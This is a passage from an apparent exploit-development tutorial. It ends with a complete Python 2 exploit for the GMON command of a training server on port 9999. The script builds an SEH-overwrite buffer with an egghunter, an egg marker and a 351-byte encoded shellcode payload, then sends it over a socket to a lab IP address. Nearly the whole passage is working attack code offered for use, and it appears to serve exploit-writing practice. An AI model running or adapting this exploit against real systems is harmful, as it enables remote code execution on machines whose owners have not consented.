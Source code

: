 So even by specifying an additional bad character, our payload remained the same size at 351 bytes. Let's now submit our final exploit code:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

Seh = '\x2b\x17\x50\x62'
nSeh = '\x40\x40\x75\x04'  
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x45\x47\x47\x48\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

egg = 'EGGHEGGH'
shellcode = ("\xda\xc8\xd9\x74\x24\xf4\xb8\x86\xa2\x3b\x8b\x5a\x29\xc9\xb1"
"\x52\x31\x42\x17\x83\xc2\x04\x03\xc4\xb1\xd9\x7e\x34\x5d\x9f"
"\x81\xc4\x9e\xc0\x08\x21\xaf\xc0\x6f\x22\x80\xf0\xe4\x66\x2d"
"\x7a\xa8\x92\xa6\x0e\x65\x95\x0f\xa4\x53\x98\x90\x95\xa0\xbb"
"\x12\xe4\xf4\x1b\x2a\x27\x09\x5a\x6b\x5a\xe0\x0e\x24\x10\x57"
"\xbe\x41\x6c\x64\x35\x19\x60\xec\xaa\xea\x83\xdd\x7d\x60\xda"
"\xfd\x7c\xa5\x56\xb4\x66\xaa\x53\x0e\x1d\x18\x2f\x91\xf7\x50"
"\xd0\x3e\x36\x5d\x23\x3e\x7f\x5a\xdc\x35\x89\x98\x61\x4e\x4e"
"\xe2\xbd\xdb\x54\x44\x35\x7b\xb0\x74\x9a\x1a\x33\x7a\x57\x68"
"\x1b\x9f\x66\xbd\x10\x9b\xe3\x40\xf6\x2d\xb7\x66\xd2\x76\x63"
"\x06\x43\xd3\xc2\x37\x93\xbc\xbb\x9d\xd8\x51\xaf\xaf\x83\x3d"
"\x1c\x82\x3b\xbe\x0a\x95\x48\x8c\x95\x0d\xc6\xbc\x5e\x88\x11"
"\xc2\x74\x6c\x8d\x3d\x77\x8d\x84\xf9\x23\xdd\xbe\x28\x4c\xb6"
"\x3e\xd4\x99\x19\x6e\x7a\x72\xda\xde\x3a\x22\xb2\x34\xb5\x1d"
"\xa2\x37\x1f\x36\x49\xc2\xc8\xf9\x26\xcd\xcf\x92\x34\xcd\xce"
"\xd9\xb0\x2b\xba\x0d\x95\xe4\x53\xb7\xbc\x7e\xc5\x38\x6b\xfb"
"\xc5\xb3\x98\xfc\x88\x33\xd4\xee\x7d\xb4\xa3\x4c\x2b\xcb\x19"
"\xf8\xb7\x5e\xc6\xf8\xbe\x42\x51\xaf\x97\xb5\xa8\x25\x0a\xef"
"\x02\x5b\xd7\x69\x6c\xdf\x0c\x4a\x73\xde\xc1\xf6\x57\xf0\x1f"
"\xf6\xd3\xa4\xcf\xa1\x8d\x12\xb6\x1b\x7c\xcc\x60\xf7\xd6\x98"
"\xf5\x3b\xe9\xde\xf9\x11\x9f\x3e\x4b\xcc\xe6\x41\x64\x98\xee"
"\x3a\x98\x38\x10\x91\x18\x58\xf3\x33\x55\xf1\xaa\xd6\xd4\x9c"
"\x4c\x0d\x1a\x99\xce\xa7\xe3\x5e\xce\xc2\xe6\x1b\x48\x3f\x9b"
"\x34\x3d\x3f\x08\x34\x14")


buffer = 'A' * (3514 - len(egg + shellcode))
buffer += egg
buffer += shellcode
buffer += nSeh
buffer += Seh
buffer += egghunter
buffer += 'C' * (5012 - len(buffer))


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("GMON /.../" + buffer)
print s.recv(1024)
s.close()
```
